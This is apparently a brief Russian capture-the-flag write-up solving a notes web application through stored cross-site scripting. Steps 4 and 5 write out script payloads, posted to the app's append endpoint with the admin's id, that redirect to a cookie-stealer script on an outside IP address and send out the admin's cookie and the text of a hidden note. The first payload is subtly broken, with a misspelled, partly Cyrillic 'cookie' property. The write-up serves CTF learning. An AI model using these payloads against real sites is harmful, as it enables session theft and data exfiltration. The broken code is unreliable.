 1. Находим дополнительных флаг нажав кнопку append c незаполненным полем.

2. Проверям на xss передав <script>alert("TEST");</script> в notes. Видим, что проэксплуатировать его здесь получиться.

3. Видим, что http://notes.ctf2019.rocks/append принимает id юзера в параметрах. Из исходного кода страницы находим,
что у admin-а id=1.

4. Забираем куку админа передав в http://notes.ctf2019.rocks/append параметры 
append=<script>document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.сokkie);</script>
id=1   
и получаем доп флаг.

5. Смотрим js path к hidden записи админа.
Передаем  в http://notes.ctf2019.rocks/append параметры 
append=<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.querySelector('body > div:nth-child(2) > div:nth-child(1) > p:nth-child(2)').innerText);</script>
id=1 и получаем влаг.

